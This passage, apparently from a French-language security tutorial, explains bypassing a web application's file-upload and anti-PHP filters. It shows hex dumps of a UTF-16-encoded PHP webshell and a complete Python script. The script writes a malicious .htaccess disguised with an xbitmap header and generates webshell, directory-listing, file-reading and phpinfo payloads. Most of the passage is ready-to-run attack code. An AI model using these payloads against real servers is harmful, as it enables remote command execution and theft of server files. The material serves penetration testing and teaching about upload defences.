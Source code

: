 Le fichier est correctement traité et déposé sur le serveur !

![](/images/bypass-file-upload/2023-10-05-16-51-19.png)

## Contourner la protection anti-php

Un autre filtre empêche le dépôt de contenu PHP avec la vérification de la chaine de caractères `<?`. Or, il est possible de contourner cette protection en encodant le payload. 

En effet, PHP supporte plusieurs format d'encodage. Actuellement, l'écriture de base est en utf-8, mais PHP supporte également l'encodage utf-16. 

En utf-8, un caractère est encodé sur 1 octet.

```php
00000000: 3c3f 7068 7020 7379 7374 656d 2824 5f47  <?php system($_G
00000010: 4554 5b27 636d 6427 5d29 3b20 6469 6528  ET['cmd']); die(
00000020: 293b 203f 3e0a                           ); ?>.
```

Or, en utf-16 l'encodage est effectué sur **2 octets**.

```php
00000000: 003c 003f 0070 0068 0070 0020 0073 0079  .<.?.p.h.p. .s.y
00000010: 0073 0074 0065 006d 0028 0024 005f 0047  .s.t.e.m.(.$._.G
00000020: 0045 0054 005b 0027 0063 006d 0064 0027  .E.T.[.'.c.m.d.'
00000030: 005d 0029 003b 0020 0064 0069 0065 0028  .].).;. .d.i.e.(
00000040: 0029 003b 0020 003f 003e 0a              .).;. .?.>.
```

Il a été choisi ici un encodage **utf-16 Big Endian**. Le premier caractère `<` s'écrira donc `003c` en utf-16 au lieu de `3c` en utf-8. Avec cette astuce, le filtre est contourné.

Voici un petit script python pour automatiser la création de payload.

```python
#!/usr/bin/env python3
# Description : create and bypass file upload filter with .htaccess
# Author : Thibaud Robin

# Will prove the file is a legit xbitmap file and the size is 1337x1337
SIZE_HEADER = b"\n\n#define width 1337\n#define height 1337\n\n"

def generate_php_file(filename, script):
	phpfile = open(filename, 'wb') 
	phpfile.write(script.encode('utf-16be'))
	phpfile.write(SIZE_HEADER)
	phpfile.close()

def generate_htacess():
	htaccess = open('..htaccess', 'wb')
	htaccess.write(SIZE_HEADER)
	htaccess.write(b'AddType application/x-httpd-php .php16\n')
	htaccess.write(b'php_value zend.multibyte 1\n')
	htaccess.write(b'php_value zend.detect_unicode 1\n')
	htaccess.write(b'php_value display_errors 1\n')
	htaccess.close()
		
generate_htacess()

generate_php_file("webshell.php16", "<?php system($_GET['cmd']); die(); ?>")
generate_php_file("scandir.php16", "<?php echo implode('\n', scandir($_GET['dir'])); die(); ?>")
generate_php_file("getfile.php16", "<?php echo file_get_contents($_GET['file']); die(); ?>")
generate_php_file("info.php16", "<?php phpinfo(); die(); ?>")
```
